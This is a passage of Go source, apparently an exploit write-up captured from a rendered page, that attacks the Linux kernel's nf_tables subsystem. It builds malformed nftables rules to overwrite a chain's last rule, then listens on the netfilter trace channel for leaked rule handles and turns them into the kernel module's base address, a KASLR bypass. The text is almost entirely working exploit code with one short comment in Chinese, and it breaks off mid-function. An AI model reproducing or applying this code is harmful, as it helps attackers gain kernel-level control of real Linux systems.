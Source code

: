 ```
      &expr.Immediate{
        Register: 17,
        Data:     rule_high_u16_buff,
      },
      &expr.Immediate{
        Register: 18,
        Data:     new_last_rule_low_u16_buff,
      },
      &expr.Immediate{
        Register: 8,
        Data:     new_last_rule_low_u16_buff2,
      },
      &expr.Byteorder{
        SourceRegister: 8,
        DestRegister:   18,
        Op:             expr.ByteorderHton,
        Len:            22,
        Size:           2,
      },
      &expr.Meta{
        Key:            unix.NFT_META_NFTRACE,
        SourceRegister: true,
        Register:       8,
      },
    },
  })

  fmt.Printf("overwrite chain rule last_rule\n")
  conn.Flush()
  send_packet()
```  
  
泄漏handle，即泄漏ops地址，最后推出模块地址  
```
  traceconn, err := netlink.Dial(unix.NETLINK_NETFILTER, &netlink.Config{})
  if err != nil {
    panic(err)
  }
  defer traceconn.Close()
  err = traceconn.JoinGroup(unix.NFNLGRP_NFTRACE)
  if err != nil {
    panic(err)
  }
  send_packet()
  for {
    messages, err := traceconn.Receive()
    if err != nil {
      panic(err)
    }
    for _, m := range messages {
      ad, err := netlink.NewAttributeDecoder(m.Data[4:])
      if err != nil {
        panic(err)
      }
      ad.ByteOrder = binary.BigEndian
      for ad.Next() {
        if ad.Type() == unix.NFTA_TRACE_RULE_HANDLE {
          if ad.Uint64() > 0x3fe00000000 {
            ops_value := (ad.Uint64() >> 3) | (0xffffffffc0000000)
            fmt.Printf("ops: 0x%x\n", ops_value)
            module_base_address = ops_value - 0x28000
            fmt.Printf("nf_tables.ko .text address: 0x%x\n", module_base_address)
            conn.FlushTable(my_table)
            return module_base_address
```